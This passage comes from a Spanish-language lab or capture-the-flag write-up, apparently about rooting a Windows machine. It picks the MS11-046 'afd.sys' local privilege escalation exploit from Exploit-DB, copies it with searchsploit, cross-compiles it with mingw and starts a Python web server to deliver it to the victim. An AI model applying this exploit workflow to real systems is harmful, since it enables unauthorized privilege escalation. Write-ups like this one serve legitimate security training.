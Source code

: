 Y encontramos estos dos:
* <a href="https://www.exploit-db.com/exploits/40564" target="_blank">Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)</a>
* <a href="https://www.exploit-db.com/exploits/39719" target="_blank">Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)</a>

Como no podemos usar **PowerShell**, vamos a usar la primera opción.

<br>

<h2 id="PostExp">Probando Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)</h2>

La podemos encontrar dentro de Kali:
```bash
searchsploit MS11-046
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)                                                                                   | windows_x86/local/40564.c
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046)                                                                                                 | windows/dos/18755.c
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Usamos la primer opción.

Copiamos el Exploit en nuestro directorio de trabajo:
```bash
searchsploit -m windows_x86/local/40564.c
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
    Codes: CVE-2011-1249, MS11-046
 Verified: True
File Type: C source, ASCII text
```
Analizando el Exploit, nos menciona que debemos compilarlo para obtener el binario que usaremos para escalar privilegios.

Compilamos el Exploit:
```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

Ya solo es cuestión de mandarlo a la máquina víctima.

Abre un servidor con **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
